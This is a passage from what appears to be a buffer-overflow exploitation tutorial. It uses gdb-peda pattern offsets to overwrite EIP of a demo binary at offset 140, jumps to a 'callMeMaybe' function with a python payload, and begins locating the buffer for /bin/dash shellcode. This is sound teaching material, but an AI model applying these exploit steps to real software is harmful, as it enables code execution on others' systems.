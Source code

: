 This command is a `peda` command which permit to generate a specific pattern which will help us to find the offset.

So let's run the program with this pattern.

```sh
run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AA.....AAxAAyA'
 [----------------------------------registers-----------------------------------]
EAX: 0xd2
EBX: 0xf7fb9000 --> 0x1a8da8
ECX: 0x0
EDX: 0xf7fba878 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x41514141 ('AAQA')
ESP: 0xffffd250 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
EIP: 0x41416d41 ('AmAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
```
We can see that the EIP register has been overwrite with the pattern `AmAA`, let's find the exact offset with this command.

```sh
gdb-peda$ pattern offset AmAA
AmAA found at offset: 140
```

We have a 140 offset. With this information we know that we have to pass 140 octets before to put the address of the callMeMaybe function.

The callMeMaybe address is :

```sh
gdb-peda$ p callMeMaybe
$1 = {void ()} 0x80484c6 <callMeMaybe>
```

We have now everything we need to exectute this commande through the buffer overflow vulnerability.
For call `callMeMaybe`, it is necessary to run the program with an offset of 140 followed by the address of the function in little endian (`0x80484c6` =>  `0xc6840408`).

```sh
gdb-peda$ run $(python -c 'print "A" * 140 + "\xc6\x84\x04\x08"')
```

Here we go! We get the message `Powned!`

## Shellcode execution

The Shellcode is a program composed of hexadecimal command.

Before, we have find the offset (140), we dispose of a 23 bytes shellcode which correspond to the `/bin/dash` command.
Now we need to find the address of our buffer. We can use `gdb` to get it, `A` equal to `0x41` in hexadecimal. Let's pass in argument tow hundred `A` and check the ESP register to find them.

```sh
gdb$ run $(python -c 'print "A" *200')
gdb$ x/100xg $esp
0xffffd490:	0x622f73746e656d75	0x65764f7265666675
0xffffd4a0:	0x65642f776f6c6672	0x336f6d65642f6f6d
0xffffd4b0:	0x410032332d31762f	0x4141414141414141
0xffffd4c0:	0x4141414141414141	0x4141414141414141
0xffffd4d0:	0x4141414141414141	0x4141414141414141
0xffffd4e0:	0x4141414141414141	0x4141414141414141
0xffffd4f0:	0x4141414141414141	0x4141414141414141
0xffffd500:	0x4141414141414141	0x4141414141414141
0xffffd510:	0x4141414141414141	0x4141414141414141
0xffffd520:	0x4141414141414141	0x4141414141414141
0xffffd530:	0x4141414141414141	0x4141414141414141
```